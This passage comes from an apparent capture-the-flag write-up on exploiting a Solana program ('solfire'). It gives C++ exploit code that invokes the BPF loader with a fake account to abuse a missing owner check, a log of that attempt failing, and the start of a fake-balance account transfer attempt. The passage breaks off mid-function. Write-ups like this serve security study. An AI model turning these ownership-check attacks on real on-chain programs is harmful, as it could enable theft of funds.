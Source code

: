 ```cpp
SolAccountInfo & bpfloader_account() { return params.ka[7]; }
SolAccountInfo & fake_solfire_account() { return params.ka[8]; }
```

Now that we have the accounts added that we want to work with, we need a function that will be issue the [InitializeBuffer](https://github.com/solana-labs/solana/blob/a89f180145fdc746378cb7c0077bb3478ae972a1/sdk/program/src/loader_upgradeable_instruction.rs#L21) instruction.

```cpp
void initialize_bpf_buffer(SolPubkey * balances, SolPubkey * funder)
{
    SolAccountMeta meta[] = {
        { .pubkey = fake_solfire_account().key, .is_writable = 1, .is_signer = 0 },
        { .pubkey = solve_account().key, .is_writable = 0, .is_signer = 0 },
    };

    SolInstruction instruction = {
        .program_id = bpfloader_account().key,
        .accounts = meta,
        .account_len = SOL_ARRAY_SIZE(meta),
        .data = nullptr,
        .data_len = 0,
    };

    sol_invoke(&instruction, params.ka, params.ka_num);
}
```

Unfortunately this didn't work, apparently you can't call the BPF loader on-chain, which is probably a good thing.

```
Log Messages:
    Program 9ZJuDJj9aSiSTS1rQuZm7F6rS3bzXqHwyFjSrmGECd25 invoke [1]
    Program log: Solution::run
    Program 9ZJuDJj9aSiSTS1rQuZm7F6rS3bzXqHwyFjSrmGECd25 consumed 1458 of 200000 compute units
    Program failed to complete: Program BPFLoaderUpgradeab1e11111111111111111111111 not supported by inner instructions
    Program 9ZJuDJj9aSiSTS1rQuZm7F6rS3bzXqHwyFjSrmGECd25 failed: Program failed to complete
```

I couldn't see any other way of potentially exploiting this bad owner check.

## Account transfer attempt

The next thing that I attempted to do was to see if I could create an account owned by solve program, create a fake balance then transfer the account to the solfire program.

```cpp
#pragma pack(push, 1)
struct NewAccountData
{
	uint32_t enumValue = 0;
	uint64_t lamports;
	uint64_t space;
	SolPubkey owner;
};

struct AssignAccountData
{
	uint32_t enumValue = 1;
	SolPubkey owner;
};
#pragma pack(pop)

void system_create_account(const NewAccountData & ix_data)
```